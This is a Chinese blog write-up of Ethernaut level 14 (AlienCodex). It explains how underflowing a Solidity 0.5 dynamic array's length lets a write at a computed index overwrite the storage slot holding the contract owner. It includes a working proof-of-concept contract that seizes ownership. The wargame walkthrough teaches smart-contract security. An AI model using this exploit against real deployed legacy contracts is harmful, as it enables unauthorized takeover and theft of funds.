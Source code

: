 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-14'
date: 2022-12-16 12:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

#### 目标: 更改合约的拥有者

##### 先看代码:

##### 可是似乎合约中并没有任何变量存储合约的部署者地址如何更改呢,但是注意看此合约继承了Ownable合约.实际上合约的部署者地址就存储在Ownable合约中的_owner变量中

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {
   //由于此合约继承了Ownable所以实际上address private _owner 和下面的这个contact变量就存在此合约的slot0中   
  bool public contact;   
  // solidity中字节数组如果没有指定元素数量的话默认空间长度就是对应合约存储空间2^256 -1
  bytes32[] public codex; 

  modifier contacted() {
    assert(contact);//判断contact变量是否为true,否则revert
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

//看起来我们没有直接的方式修改private _owner变量,但是注意看这个方法
  function retract() contacted public {
  /*
  如果字节数字为空的情况下再减去元素是不是就内存溢出了呢？
  那么现在如果想要修改slot0的数据是不是可以:
  codex[2^256-1(合约存储槽总长度) - keccak256(1) + 1(溢出的字节数组长度为-1所以此处+1读取下标0)] = data
  
 question1: 为什么字节数组长度可以为负? 
   其实是因为 EVM 不会验证一个数组的长度
 question2: 为什么此时字节数组能够根据下标位置对应修改slot0的数据?
   因为此时的数组是溢出的,此时的字节数组[下标]-1已经对应了整个合约的slot 2^256 - 1长度存储空间.
 question3: 为什么字节数组下标需要这么麻烦呢 不是直接 1 2 3 呢
   比如: 
   codex[ keccak256(1) ] = codex[0]
   codex[ keccak256(2) + 1] = codex[1]
  因为字符串或字节类型存放的数据大小在EVM编译器来看是不可预知的,无法在编译期直接确定其存储位置.因此 Solidity 在编译动态数字、字典数据时采用的是特定算法。
   */
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
//部分Ownable合约代码
abstract contract Ownable is Context {
    address private _owner;
```

##### poc思路:point_right:：所以我们需要做的就是使字节数组溢出,根据 make_contact ->  retract ->  revise 这个调用顺序

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./AlienCodex.sol";

contract hackAlien {

 AlienCodex public alien   = AlienCodex(0x48a57CBA06d5AE4e82a13e39465fB82cAD0c4DC8);

//计算动态数组下标与slot0的对应位置
uint public index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;

 function byteOverflow(address  _owner) external   { 
     //满足条件
     alien.make_contact();
     //构造字节数组溢出
     alien.retract();
     //利用溢出修改slot0数据
     bytes32 owner = bytes32(uint256(uint160(_owner)));
     alien.revise(index , owner);

 }
}
```

```js
await contract.owner() //查看owner是否更改成功
```



#### 还要说的一点就是:这种字节数组直接.length -- 这种操作再solidity0.6.0开始就已经被禁止:shield: